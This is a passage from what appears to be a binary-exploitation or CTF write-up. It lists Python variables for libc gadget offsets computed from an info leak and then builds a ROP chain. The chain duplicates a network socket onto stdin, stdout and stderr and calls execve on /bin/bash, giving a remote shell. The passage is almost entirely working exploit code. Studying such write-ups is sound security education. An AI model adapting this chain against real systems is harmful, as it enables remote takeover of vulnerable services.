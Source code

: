 
Lets write down all the information we have into some python variables:

```
    libcPtr = u64(infoLeakData[0x60:0x60+8])
    libcBase = libcPtr - 158986
    null = 0x404090
    socketNo = 4

    binBash = libcBase + 1614162
    pop_rax = libcBase + 0x3ee88
    pop_rdi = libcBase + 0x26796
    pop_rsi = libcBase + 0x2890f
    syscall = libcBase + 0x580da
```


## Rop chain

We can create the ropchain like this:
```
    # dup2(4, 0)
    payload += p64 ( pop_rax ) 
    payload += p64 ( 33 )
    payload += p64 ( pop_rdi ) 
    payload += p64 ( socketNo )
    payload += p64 ( pop_rsi)
    payload += p64 ( 0 )
    payload += p64 ( syscall ) 

    # dup2(4, 1)
    payload += p64 ( pop_rax ) 
    payload += p64 ( 33 )
    payload += p64 ( pop_rdi ) 
    payload += p64 ( socketNo )
    payload += p64 ( pop_rsi )
    payload += p64 ( 1 )
    payload += p64 ( syscall ) 

    # dup2(4, 2)
    payload += p64 ( pop_rax ) 
    payload += p64 ( 33 )
    payload += p64 ( pop_rdi ) 
    payload += p64 ( socketNo )
    payload += p64 ( pop_rsi)
    payload += p64 ( 2 )
    payload += p64 ( syscall ) 

    # execve 
    payload += p64 ( pop_rdi )
    payload += p64 ( binBash )
    payload += p64 ( pop_rsi )
    payload += p64 ( null )
    payload += p64 ( pop_rax)
    payload += p64 ( 59 )
    payload += p64 ( syscall )
```
